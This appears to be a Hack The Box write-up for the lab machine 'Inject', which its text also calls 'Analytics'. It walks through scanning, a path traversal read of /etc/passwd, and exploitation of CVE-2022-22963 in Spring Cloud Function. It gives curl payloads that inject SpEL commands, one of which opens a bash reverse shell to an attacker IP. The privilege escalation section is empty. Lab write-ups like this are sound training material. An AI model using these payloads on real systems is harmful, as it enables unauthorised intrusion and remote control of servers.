




# Inject Writeup - by Thammanant Thamtaranon  
- Analytics is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.204`  
  
- The scan showed two open ports:  
  - 22 (SSH)  
  - 8080 (HTTP)  

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u 10.10.11.204:8080`  
  
- We found the `/upload` path, when upload the file there will be a link to view the uploaded image. The path is `show_image?img=`.
  
## Exploitation  
- I try path traversal with `/show_image?img=../../../../../../../etc/passwd`.
 
- We then confirm user phil.
- We then try to read config file to determine what language or framework is being used. We found pom.xml which indicated java and spring boot.

- We then search in the internet for these CVE and found **CVE-2022-22963**.
- The **CVE-2022-22963** is expression Language Injection (SpEL), where Spring Cloud Function had improper input validation in its "Routing Function" feature.
- So to test if it is vulnerable we navigate to `http://10.10.11.204:8080/functionRouter`. This show us HTTP Status 500 – Internal Server Error, which indicate that it is indeed vulnerable.
- We then test with this command
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder(\"/bin/sh\",\"-c\",\"touch /tmp/test\").start()" \
-d "test"
```
- Then we use the path traversal exploit to read the `/tmp/test` file to confirm our exploit.

- We the run the command
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder('/bin/bash','-c','bash -i >& /dev/tcp/10.10.16.11/4444 0>&1').start()" \
-d "test"
```
- We then get a shell as user frank.


## Privilege Escalation  
